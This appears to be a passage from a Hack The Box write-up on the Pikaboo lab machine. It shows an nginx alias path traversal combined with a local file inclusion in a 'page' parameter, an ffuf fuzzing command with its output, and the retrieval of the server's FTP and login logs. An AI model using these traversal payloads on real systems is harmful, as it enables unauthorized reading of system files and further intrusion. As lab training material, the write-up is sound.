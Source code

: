 Looking around the admin_staging dashboard, I don't see much, but when going to the user profile or dashboard page, I noticed it was adding my current page as a URL parameter like this:

```
http://pikaboo.htb/admin../admin_staging/index.php?page=dashboard.php
```

This could be vulnerable to a number of things including LFI, so let's fuzz the parameter.

## Foothold

ffuf is my new favorite fuzzing tool, so let's run it against that URL page parameter we noticed:

```
[/usr/share/seclists/Discovery/Web-Content] λ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://pikaboo.htb/admin../admin_staging/index.php\?page\=FUZZ -mc 200 -c -v -fw 3272

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response words: 3272
________________________________________________

[Status: 200, Size: 19803, Words: 3893, Lines: 414]
| URL | http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
    * FUZZ: /var/log/vsftpd.log

[Status: 200, Size: 174325, Words: 3286, Lines: 558]
| URL | http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/wtmp
    * FUZZ: /var/log/wtmp

:: Progress: [914/914] :: Job [1/1] :: 633 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

We get two 200 responses. I am able to point the page parameter to the value of /var/log/vsftpd.log and retrieve the server's FTP log. 


[1]: https://app.hackthebox.com/users/157669
[2]: https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
[3]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[4]: https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
[5]: https://www.hackthebox.eu